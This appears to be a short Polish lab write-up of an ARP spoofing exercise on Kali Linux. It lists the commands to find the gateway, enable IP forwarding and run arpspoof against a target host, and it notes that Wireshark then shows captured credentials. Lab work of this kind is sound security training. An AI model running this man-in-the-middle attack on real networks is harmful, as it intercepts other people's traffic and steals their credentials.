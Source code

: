 # Zadanie 7 - ARP Spoofing

### Ustalenie default gatway
```shell
┌──(kali㉿kali)-[~]
└─$ ip route show 
default via 192.168.179.2 dev eth0 proto dhcp src 192.168.179.129 metric 100 
192.168.179.0/24 dev eth0 proto kernel scope link src 192.168.179.129 metric 100 

```

### Uruchomienie możliwości przekazywanie pakietów
```shell
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
```

### Wykonanie ataku ARP Spoofing
```shell
sudo arpspoof -i eth0 -t 192.168.179.135 192.168.179.2 
```

### Wireshark umożliwia odczytania kredek
![b7ba003199bab6abf79cfb715fc2f64a.png](/_resources/b7ba003199bab6abf79cfb715fc2f64a.png)
